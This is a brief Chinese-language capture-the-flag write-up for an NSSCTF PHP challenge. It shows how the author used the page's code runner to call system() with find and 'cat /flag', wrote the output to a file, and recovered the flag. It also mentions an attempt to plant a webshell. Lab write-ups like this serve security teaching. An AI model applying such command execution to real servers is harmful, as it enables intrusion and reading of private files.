

# PHP是世界上最好的语言

题目链接：http://node5.anna.nssctf.cn:25828/


解题思路：


本身界面就可以run code。但是尝试写入webshell后，虽然可以展示PHPINFO内容：



但是文件处一片空白，命令执行/虚拟终端也存在问题，如python不存在、/bin/bash不存在等。


只能换一种思路，先让/下的目录写到flag.txt里。

```
$result = system("find / -maxdepth 1 -name flag");
file_put_contents("./flag.txt", $result);
```

可以看到，只有/flag。

再让/flag的内容写到flag.txt里：

```
$result = system("cat /flag");
file_put_contents("./flag.txt", $result);
```

得到flag:

```
NSSCTF{e0d9198d-79f2-4015-8db0-b4a5b39e0b2f}
```

